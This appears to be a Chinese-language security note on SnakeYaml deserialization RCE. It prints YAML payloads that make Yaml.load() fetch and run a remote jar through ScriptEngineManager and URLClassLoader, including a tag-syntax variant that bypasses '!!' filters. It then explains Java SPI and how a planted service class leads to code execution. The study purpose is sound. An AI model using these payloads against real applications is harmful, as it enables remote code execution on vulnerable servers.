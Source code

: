 
### SnakeYaml
SnakeYaml是一个完整的YAML1.1规范Processor，用于解析YAML，序列化以及反序列化，支持UTF-8/UTF-16，支持Java对象的序列化/反序列化，支持所有YAML定义的类型。



### SnakeYaml有2个方法：
* Yaml.load()：入参是一个字符串或者一个文件，返回一个Java对象；
* Yaml.dump()：将一个对象转化为yaml文件形式;



### payload
* payloads1:
```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://127.0.0.1:7800/yaml-payload.jar"]
  ]]
]
```

* payloads2:

绕过 !! 的限制，如下： ！可以用 tag:yaml.org,2002 表示。
```yaml
!<tag:yaml.org,2002:javax.script.ScriptEngineManager>
则表示获取一个 javax.script.ScriptEngineManager 对象
```
```yaml
!<tag:yaml.org,2002:javax.script.ScriptEngineManager> [!<tag:yaml.org,2002:java.net.URLClassLoader> [[!<tag:yaml.org,2002:java.net.URL> ["http://127.0.0.1:7800/yaml-payload.jar"]]]]
```

简单复现：
![img.png](img.png)



### yaml反序列化
下面RCE(yamlRCE)，就是利用的 yaml反序列化漏洞利用。 利用方法和过程都是一样的。

这里对SPI机制再做一下讲解。



# SPI
正文之前先了解一下SPI机制。

SPI全称Service Provider Interface，是Java提供的一套用来被第三方实现或者扩展的接口，它可以用来启用框架扩展和替换组件。 SPI的作用就是为这些被扩展的API寻找服务实现。
* API （Application Programming Interface）在大多数情况下，都是实现方制定接口并完成对接口的实现，调用方仅仅依赖接口调用，且无权选择不同实现。 从使用人员上来说，API 直接被应用开发人员使用。
* SPI （Service Provider Interface）是调用方来制定接口规范，提供给外部来实现，调用方在调用时则选择自己需要的外部实现。 从使用人员上来说，SPI 被框架扩展人员使用。



# spi简单实现
### 接口
```java
package snakeYaml.SPI;

public interface SpiService {
    public void say();
}
```

### 实现类
SPI1
```java
package snakeYaml.SPI;

public class SPI1 implements SpiService{
    @Override
    public void say() {
        System.out.println("This is SPI->1");
    }
}
```

PSI2
```java
package snakeYaml.SPI;

public class SPI2 implements SpiService{
    @Override
    public void say() {
        System.out.println("This is SPI->2");
    }
}
```

##### 重点：接口实现类的全限定名
在classpath下面创建目录META-INF/services/，在下面创建文件名是上述接口全限定名的文件，在此文件中写入此接口的实现类的全限定名：
![img_1.png](img_1.png)


### 测试
```java
package snakeYaml.SPI;

import java.util.Iterator;
import java.util.ServiceLoader;

public class SpiDemo {
    public static void main(String[] args) {
       ServiceLoader<SpiService> serviceLoader = ServiceLoader.load(SpiService.class);
//        for (SpiService spiService : serviceLoader) {
//            spiService.say();
//        }
         Iterator<SpiService> iterator = serviceLoader.iterator();
        while (iterator.hasNext()) {
            SpiService spiService = iterator.next();
            spiService.say();
        }
    }
}
```



### RCE
* 如果存在任意文件写入的话，即构造一个恶意类，并添加到classpath下，导致代码执行
* 此时将将SPI1中say方法的内容改为calc，当运行后则会造成代码执行;
![img_2.png](img_2.png)
  
